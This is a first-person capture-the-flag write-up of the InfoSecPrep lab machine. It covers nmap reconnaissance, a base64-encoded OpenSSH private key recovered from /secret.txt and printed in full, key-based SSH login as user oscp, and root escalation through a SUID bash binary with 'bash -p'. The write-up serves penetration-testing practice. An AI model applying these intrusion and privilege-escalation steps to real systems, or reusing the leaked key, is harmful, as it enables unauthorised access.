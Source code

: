 # InfoSecPrep writeup by Chanathip (this is my first writeup btw)
## Info-Sheet

- IP: 192.168.184.89
- DNS-Domain name: N/A
- Host name: InfoSecPrep
- OS: Linux
- Server: Apache httpd 2.4.41
- Kernel: Linux oscp 5.4.0-40-generic \#44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

---
## Recon
---
Services and ports:
```bash
# Nmap 7.91 scan initiated Fri Sep  3 17:24:39 2021 as: nmap -v -sC -sV -oN scans/nmap.txt 192.168.184.89  
Nmap scan report for 192.168.184.89  
Host is up (0.068s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)  
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)  
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|_http-generator: WordPress 5.4.2  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
| http-robots.txt: 1 disallowed entry    
|_/secret.txt  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
|_http-title: OSCP Voucher &#8211; Just another WordPress site  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Fri Sep  3 17:24:52 2021 -- 1 IP address (1 host up) scanned in 12.84 seconds
```
### Port 22 - SSH 
- Name: OpenSSH
- Version: OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
- Takes-password: No password, RSA key only

Netcat Connection to SSH

```bash
┌─[✗]─[kenobi@cg-home]─[~/ctf/ProvingGround/Warmup/InfoSecPrep]  
└──╼ $nc 192.168.184.89 22  
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1
```
```
nc 192.168.184.89 22
```

### Port 80 - Web server

- Server: Apache httpd 2.4.41
- Scripting language: php
- IP-address: 192.168.184.89
- Domain name address: N/A

```bash
curl --head http://192.168.184.89   
```
```bash
HTTP/1.1 200 OK  
Date: Fri, 03 Sep 2021 22:34:02 GMT  
Server: Apache/2.4.41 (Ubuntu)  
Link: <http://192.168.184.89/index.php/wp-json/>; rel="https://api.w.org/"  
Content-Type: text/html; charset=UTF-8
```

- Web application: Wordpress
- Name: InfoSecPrep
- Version: 5.4.2

##### /index.php
- Blogs
- Found possible username `oscp`

##### /robots.txt
- /secret.txt

##### /secret.txt
- contained base64 encoded
-  decoded value below
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

- Possible ssh-key of user `oscp`

---

## exploitation

---
### Port 22 - SSH
- We try using ssh-key found against user `oscp`
##### steps
1. chmod 600 `<filename>`
2. ssh -i `<filename>` oscp@`<IP>`

Successfully Logged in

---
## PRIVILEGE ESCALATION
---

- Perform basic local enumerations

### Possible escalate routes
- SUID
- ##### steps
1. find / -perm -4000 2>/dev/null
2. Found interesting bin for priv esc --> /usr/bin/bash

#### priv esc
- ##### steps
1. Using /usr/bin/bash with SUID for priv esc
2. Go to [[https://gtfobins.github.io]]
3. Search for bash binary
4. Found `bash -p` for priv esc
5. Execute, got root bash shell

# GG!
